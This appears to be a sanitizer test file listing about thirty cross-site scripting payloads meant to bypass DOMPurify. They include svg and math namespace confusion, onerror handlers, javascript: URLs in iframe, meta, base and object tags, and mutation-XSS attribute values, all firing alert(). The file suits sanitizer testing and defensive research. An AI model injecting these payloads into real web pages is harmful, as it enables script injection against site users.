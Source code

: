 # DOMPurify Bypass Attempts

## mXSS through namespace confusion
<svg><image href="javascript:alert('svg-image')" /></svg>

## Mathematical markup injection
<math><mi xlink:href="javascript:alert('math')">click</mi></math>

## Template element bypass
<template><img src="x" onerror="alert('template')" /></template>

## Foreign object injection in SVG
<svg><foreignObject><img src="x" onerror="alert('foreign')" /></foreignObject></svg>

## Mutation XSS through DOM manipulation
<img src="x" id="test" />
<script>document.getElementById('test').src = "javascript:alert('mutation')"</script>

## mXSS with form elements
<form><input name="attributes" value="<img src=x onerror=alert('form')>" /></form>

## HTML5 parser confusion
<img src=`javascript:alert('backtick')`>
<img src='javascript:alert("mixed-quotes")'>

## Custom element injection
<custom-element onclick="alert('custom')">Content</custom-element>

## Shadow DOM bypass attempts
<div><shadow-root><img src="x" onerror="alert('shadow')" /></shadow-root></div>

## XML namespace injection
<img xmlns:x="http://www.w3.org/1999/xhtml" x:href="javascript:alert('namespace')" />

## mXSS with table elements
<table><img src="x" onerror="alert('table-context')" /></table>

## Select option value injection
<select><option value="<img src=x onerror=alert('option')>">Text</option></select>

## Meta tag injection
<meta http-equiv="refresh" content="0;url=javascript:alert('meta')" />

## Link tag injection
<link rel="stylesheet" href="javascript:alert('link')" />

## Base tag injection
<base href="javascript:alert('base')" />

## Object/embed injection
<object data="javascript:alert('object')"></object>
<embed src="javascript:alert('embed')" />

## Video/audio with malicious sources
<video><source src="javascript:alert('video')" /></video>
<audio><source src="javascript:alert('audio')" /></audio>

## iframe source injection
<iframe src="javascript:alert('iframe')"></iframe>

## mXSS with textarea content
<textarea><img src="x" onerror="alert('textarea')" /></textarea>

## Parser confusion with noscript
<noscript><img src="x" onerror="alert('noscript')" /></noscript>

## mXSS through style injection
<style>@import "javascript:alert('style-import')";</style>

## XML entity injection
<!DOCTYPE html [<!ENTITY xxe "javascript:alert('entity')">]>
<img src="&xxe;" />

## Comment-based injection
<!--<img src="x" onerror="alert('comment')" />-->

## Processing instruction injection
<?xml-stylesheet href="javascript:alert('pi')" ?>

## Fragment identifier injection
<img src="data:text/html,<script>alert('fragment')</script>#" />

## mXSS with option selected
<option selected="<img src=x onerror=alert('selected')>">Text</option>